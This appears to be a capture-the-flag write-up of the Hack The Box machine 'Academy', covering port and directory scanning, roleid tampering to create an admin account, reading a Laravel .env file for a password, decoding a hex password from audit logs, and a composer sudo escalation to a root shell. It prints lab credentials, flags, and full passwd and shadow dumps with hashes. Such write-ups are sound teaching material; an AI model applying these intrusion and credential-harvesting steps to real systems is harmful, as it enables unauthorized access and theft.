






# Credentials

|username|password|
|--------|------------|
|cry0l1t3|mySup3rP4s5w0rd!!|
|mrb3n|mrb3n_Ac@d3my!|

|flags|value|
|-----|-----|
|user.txt|fa63f97356aabfb2a7deff1add4b37c1|
|root.txt|4cdb0f7d218332a36dc8d807b9d85fc6|

# Nmap

Basic ports enumeration.

```sql
$ nmap -sC -sV -oA nmap/academy $IP
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-05 13:58 CEST
Nmap scan report for 10.10.10.215
Host is up (0.042s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:90:a3:d8:35:25:6f:fa:33:06:cf:80:13:a0:a5:53 (RSA)
|   256 2a:d5:4b:d0:46:f0:ed:c9:3c:8d:f6:5d:ab:ae:77:96 (ECDSA)
|_  256 e1:64:14:c3:cc:51:b2:3b:a6:28:a7:b1:ae:5f:45:35 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://academy.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.90 seconds
```

Nmap tells us that the site is redirected to `http://academy.htb/`, we can verify this by intercepting the request.



Just add the hostname `academy.htb` in the host file then access the `http://academy.htb/` page.

# Website


List of existing pages and folders with gobuster.

```sql
$ gobuster dir -u http://academy.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,bak -o gobuster/gobuster-root.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://academy.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              bak,php,html,txt
[+] Timeout:                 10s
===============================================================
2021/05/05 14:16:58 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 2117]
/images               (Status: 301) [Size: 311] [--> http://academy.htb/images/]
/home.php             (Status: 302) [Size: 55034] [--> login.php]               
/login.php            (Status: 200) [Size: 2627]                                
/register.php         (Status: 200) [Size: 3003]                                
/admin.php            (Status: 200) [Size: 2633]                                
/config.php           (Status: 200) [Size: 0]
```

We create an account on http://academy.htb/register.php, then we intercept the request and we notice a `roleid` parameter. Let's change it to 1.



Changing the `roleid` parameter create an admin account instead of a user account.
We can connect to the admin page : http://academy.htb/admin.php



We obtain a subdomain name of the website : `dev-staging-01.academy.htb`

# Subdomain


This is `Laravel's debug mode`. There is an `msf exploit`.

# Metasploit



# Find Credentials

```bash
$ cat /var/www/html/academy/.env
cat /var/www/html/academy/.env
APP_NAME=Laravel
APP_ENV=local
APP_KEY=base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
APP_DEBUG=false
APP_URL=http://localhost

LOG_CHANNEL=stack

DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=academy
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!
```

We can connect with this password on the `cry0l1t3` account.

# Privesc

## cry0l1t3

A password encrypted in `hexadecimal` is found in a `log file`.

```bash
$ cat /var/log/audit/* | grep 'comm="su"'
type=TTY msg=audit(1597199293.906:84): tty pid=2520 uid=1002 auid=0 ses=1 major=4 minor=1 comm="su" data=6D7262336E5F41634064336D79210A
```



We can connect with this password on the `mrb3n` account.

## mrb3n

`mrb3n` can execute `/usr/bin/composer` as root.

```bash
$ sudo -l
[sudo] password for mrb3n: 
Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
```

https://gtfobins.github.io/gtfobins/composer/



## Exploit

```bash
$ TF=$(mktemp -d)
$ echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
$ sudo /usr/bin/composer --working-dir=$TF run-script x
```

We are `root`.

# Passwd file

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
egre55:x:1000:1000:egre55:/home/egre55:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mrb3n:x:1001:1001::/home/mrb3n:/bin/sh
cry0l1t3:x:1002:1002::/home/cry0l1t3:/bin/sh
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
21y4d:x:1003:1003::/home/21y4d:/bin/sh
ch4p:x:1004:1004::/home/ch4p:/bin/sh
g0blin:x:1005:1005::/home/g0blin:/bin/sh
```

# Shadow file

```bash
root:$6$Haots4JVo2R7o2wP$XxlDAw9FgIGHZapROvxiKByJrGiZT0KHkoB9mLC4npT9wDOFsO3p9ad0ScF3tCKT.hk7uweN7KDK4EcmBEKv./:18481:0:99999:7:::
daemon:*:18375:0:99999:7:::
bin:*:18375:0:99999:7:::
sys:*:18375:0:99999:7:::
sync:*:18375:0:99999:7:::
games:*:18375:0:99999:7:::
man:*:18375:0:99999:7:::
lp:*:18375:0:99999:7:::
mail:*:18375:0:99999:7:::
news:*:18375:0:99999:7:::
uucp:*:18375:0:99999:7:::
proxy:*:18375:0:99999:7:::
www-data:*:18375:0:99999:7:::
backup:*:18375:0:99999:7:::
list:*:18375:0:99999:7:::
irc:*:18375:0:99999:7:::
gnats:*:18375:0:99999:7:::
nobody:*:18375:0:99999:7:::
systemd-network:*:18375:0:99999:7:::
systemd-resolve:*:18375:0:99999:7:::
systemd-timesync:*:18375:0:99999:7:::
messagebus:*:18375:0:99999:7:::
syslog:*:18375:0:99999:7:::
_apt:*:18375:0:99999:7:::
tss:*:18375:0:99999:7:::
uuidd:*:18375:0:99999:7:::
tcpdump:*:18375:0:99999:7:::
landscape:*:18375:0:99999:7:::
pollinate:*:18375:0:99999:7:::
sshd:*:18481:0:99999:7:::
systemd-coredump:!!:18481::::::
egre55:$6$63ML/QePl9o3/jGv$YvOpS9Y4pH2xJDJ.OYeoGW88OeY7CbMc/mPpYiF55JF82/8Si0wig4ex3nXnGj3f1TA0h4QvFU/vJ9i90xoQP1:18481:0:99999:7:::
lxd:!:18481::::::
mrb3n:$6$3OPUVtwJhZcOdgHP$Vvb1NGqCUistHLa8WtEhrEJTQt7pCePA0ZXGTOFoSphC9/giVLXCVDzEt/AB58YPik5hr/dNUli4lJz67AreC/:18481:0:99999:7:::
cry0l1t3:$6$fJnhoVlO7iymuwJN$.6ZVrMsRCBgegMyItnbkbkmHPxPe/MST5rruStMNFGOtM6JNtPQhJM7Gtv4H7Iz4VSxcmGQAbST0eSKWjGorj.:18484:0:99999:7:::
mysql:!:18481:0:99999:7:::
21y4d:$6$qZkgpWcya4rj6eA.$sH4ZBxJEMrHqskO.P9uMne.4PaORqe3T6eLwiIFuXacrw7BVHOzoZi4OEKmEQ5VZTqpOt1vS8N3fTWzRmPvzA1:18484:0:99999:7:::
ch4p:$6$vlSsIc75Qsy8/rrJ$5JiWH/PAPj9M0FWv80nI6wEnz2le/7U4YdZ1kdt.OZvOfitht3uYMUQkQkt7Rp.aHjaTa7aJwACSze.hXJr/V0:18484:0:99999:7:::
g0blin:$6$asgz3zF/8pV0Hxs0$OoExRb05fgZTEJA/pcGP48a56s5vjHkatw.9HyTjekIZY9v9zJVDCMPEete6Yr4v0YL75/3J4aomUjVScnkVZ0:18484:0:99999:7:::
```